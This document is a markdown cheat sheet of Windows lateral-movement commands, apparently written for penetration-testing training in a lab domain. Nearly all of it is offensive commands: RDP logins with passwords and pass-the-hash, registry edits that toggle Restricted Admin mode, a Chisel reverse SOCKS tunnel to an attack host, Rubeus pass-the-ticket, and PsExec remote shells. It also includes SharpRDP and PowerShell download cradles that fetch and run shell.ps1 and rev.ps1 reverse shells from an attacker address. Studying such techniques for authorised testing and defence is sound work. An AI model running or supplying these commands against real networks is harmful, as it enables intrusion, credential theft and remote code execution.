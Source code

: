 ## Windows Lateral Movement Introduction and Command Line cheatsheet.

> Lateral movement refers to the techniques we use to move through a network after gaining initial access. 
> By understanding lateral movement, attackers and defenders can better navigate and secure networks. 
> This knowledge allows defenders to implement more effective security measures and helps attackers identify and exploit weaknesses in network defenses, ultimately leading to a more robust and resilient security posture. 


### RDP Commands

- xfreerdp commands

	```
	
	$ xfreerdp /u:'USER' /p:'PASSWORD' /v:'IP ADDRESS' /dynamic-resolution /drive:kali,/home/kali/Tools /cert:ignore 
	
	$ xfreerdp /u:'USER' /p:'PASSWORD' /v:'IP ADDRESS' /dynamic-resolution /drive:tmp,/home/kali/Tools /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache
	
	$ proxychains -q xfreerdp /u:'USER' /pth:'HASH' /d:inlanefreight.local /v:'IP ADDRESS
	
	```

- Open Remote Desktop Connection client (Windows)

	`C:\> mstsc.exe` 

- Open Remote Desktop Connection client in Restricted Admin mode 


	`C:\> mstsc.exe /restrictedAdmin` 

	

- Query, Disable, and Enable DisableRestrictedAdmin value in LSA settings. 

	```
	C:\> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD
	
	```

- Chisel Server & Client. 

	```
	$ ./chisel server --reverse --port 9999
	
	C:\> chisel.exe client "ATTACK HOST":"PORT" R:socks
	
	```

- Rubeus Pass the Ticket 

	```
	PS C:\> .\Rubeus.exe createnetonly /program:powershell.exe /show 
	
	PS C:\> .\Rubeus.exe asktgt /user:"USER" /rc4:"HASH" /domain:targetdomain.local /ptt
	
	``` 
	

- Execute Powershell command on Windows Server using SharpRDP

	```
	C:\> SharpRDP.exe computername=dc01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://"ATTACK-IP:PORT"/shell.ps1')" username=inlanefreight\"USER" password="PASS"

	PS C:\> IEX(IWR -Uri 'http://"ATTACK IP:PORT"/rev.ps1' -OutFile C:\>rev.ps1 -UseBasicParsing);C:\>rev.ps1
	 
	```

### SMB Commands


- Execute command on remote server using PsExec

	`PS C:\> .\PsExec.exe \\DC01 -i -s -u INLANEFREIGHT\'USER' -p 'PASS' cmd`

